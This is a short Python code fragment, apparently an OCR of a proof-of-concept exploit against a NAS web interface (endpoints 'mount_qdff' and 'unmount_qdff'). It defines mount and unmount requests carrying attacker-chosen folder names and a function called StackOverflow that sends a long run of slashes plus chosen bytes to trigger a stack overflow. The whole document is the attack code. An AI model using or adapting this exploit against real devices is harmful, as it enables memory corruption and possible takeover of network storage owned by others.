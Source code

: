     def mount(path: str, filename: str, bytes: bytes) -> bool:
        '''
        Mount the foler which name is bytes
        '''
        payload = bytes
        res = qts_req(f'path={quote(path)}&file_name={quote(filename)}&custom_name={quote(payload)}&pwd=', 'mount_qdff')
        try:
            res1 = json.loads(res)
            return res1['status'] == 1
        except:
            return False

    def unmount(bytes: bytes):
        '''
        Unmount the foler which name is bytes
        '''
        payload = bytes
        res = qts_req(f'share={quote(payload)}', 'unmount_qdff')
        try:
            res1 = json.loads(res)
            return res1['status'] == 1
        except:
            return False

    def StackOverflow():
        print(mount(path, filename, bytes_you_wanna_insert))
        unmount(b'/' * backslash_nums + bytes_you_wanna_insert)
        print(unmount(bytes_you_wanna_insert))

    StackOverflow()
    ```

